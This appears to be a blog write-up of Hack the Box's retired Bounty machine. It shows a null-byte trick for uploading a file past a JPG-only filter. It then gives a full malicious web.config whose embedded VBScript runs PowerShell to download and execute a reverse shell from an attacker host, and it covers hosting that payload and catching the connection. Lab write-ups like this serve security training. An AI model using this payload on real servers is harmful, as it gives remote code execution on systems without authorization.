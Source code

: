 ```yaml
---
layout: post
title:  "Using web.config to Bypass File Upload Restrictions"
author: nanobyte
date:   2021-09-13
description: How to leverage web.config for bypassing a file upload restriction
tags: HTB_Walkthrough SQLMap suid systemctl gobuster
---
```


<h2>Bypassing Upload Restrictions</h2>

The following attack was identified during Hack the Box's retirned Bounty machine. In that vulnerable machine, there was access to a file upload. The application only took JPG extensions. This could be defeated by adding a null byte at the end of the file extension. To add this null byte, we wil type in %00, then the required JPG extension.

First use Burp Suite and enable intercept. Once ready, upload a file, in this scenario transfer.aspx is being uploaded:

<center><img src="/images/posts/webconfig-writeup/image-1.png" alt="upload-file"></center>

Once intercepted, we can add our null byte after our ASPX extension, and before our JPG extension:

<center><img src="/images/posts/webconfig-writeup/image-2.png" alt="burp-suite-intercept"></center>

If we were to send this to the server, we will see a successful file upload:

<center><img src="/images/posts/webconfig-writeup/image-3.png" alt="file-upload-success"></center>

However, if we navigate to this file, we would receive the following error:

<center><img src="/images/posts/webconfig-writeup/image-4.png" alt="file-load-error"></center>

However, with the presence of web.config present, and the ability to bypass file upload restrictions discovered, we can create a malicious web.config, and upload a version that is useful to us, as attackers.

<h2>Malicious web.config</h2>

We can create our own malicious web.config file, which contains a PowerShell command to download a reverse shell hosted on a web server:

{% highlight bash linenos %}
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />       
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.2/reverse.ps1')")
%>
{% endhighlight %}

Before you upload this file to the server, make sure that you host a PowerShell reverse shell hosted on your local machine. Here are some great PowerShell options available from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell" target="_blank">PayloadAllTheThings</a>.

Once a PowerShell reverse shell is saved on your local machine, you must setup a web server to host this file. I generally usen a Python SimpleHTTPServer. This can be quickly setup with the following command, from the directory your reverse shell is saved in:

{% highlight bash linenos %}
python -m SimpleHTTPServer 80
{% endhighlight %}

Once the above is setup and ready to go, you can then upload the malicious web.config file. You must perform the same bypass restriction, adding the required null byte and JPG extension. Once on the server, open a NetCat listener, and open the web.config file on the web server. Completing the above, a reverse connection was received:

<center><img src="/images/posts/webconfig-writeup/image-5.png" alt="burp-suite-intercept"></center>

